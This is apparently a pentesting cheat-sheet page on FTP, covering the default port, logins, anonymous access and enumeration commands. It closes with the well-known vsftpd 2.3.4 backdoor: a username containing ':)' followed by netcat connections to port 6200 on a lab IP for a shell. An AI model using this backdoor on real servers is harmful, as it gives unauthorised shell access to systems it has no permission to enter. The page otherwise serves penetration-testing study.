 ```yaml
---
icon: file-chart-column
description: File Transfer Protocol
---
```


# FTP

{% tabs %}
{% tab title="Port" %}
```
21
```
{% endtab %}

{% tab title="Login " %}
{% code title="Standard Login" %}
```bash
ftp <IP>
```
{% endcode %}

* <mark style="color:purple;">Sometimes</mark> <mark style="color:orange;">**`anonymous`**</mark> <mark style="color:purple;">is enable by default, then just type it when being prompt by an user.</mark>
* <mark style="color:purple;">To login as any other user:</mark>

```bash
USER <user>
```

* To specify a password:

```bash
PASS <password>
```
{% endtab %}
{% endtabs %}

***

{% hint style="info" %}
## <mark style="color:purple;">Enumeration</mark>

* <mark style="color:purple;">Is always good practice to look for vulnerabilities:</mark>

```bash
searchsploit <version>
```

* <mark style="color:purple;">Check where you land:</mark>

```bash
pwd
```

* <mark style="color:purple;">List directories:</mark>

```bash
dir
```
{% endhint %}

***

{% hint style="danger" %}
## <mark style="color:purple;">Vulnerabilities</mark>

### <mark style="color:orange;">`vsftpd 2.3.4`</mark>

* <mark style="color:purple;">Connect to</mark> <mark style="color:orange;">**`FTP`**</mark> <mark style="color:purple;">with any username that contains</mark> <mark style="color:orange;">**`:)`**</mark><mark style="color:purple;">, and</mark> <mark style="color:orange;">**`any password`**</mark><mark style="color:purple;">.</mark>
* <mark style="color:purple;">Then connect to</mark> <mark style="color:orange;">**`port 6200`**</mark> <mark style="color:purple;">to get a shell:</mark>

```bash
nc 10.10.10.131 21
```

* <mark style="color:purple;">Now connect to the backdoor:</mark>

```bash
nc 10.10.10.131 6200
```

***


{% endhint %}
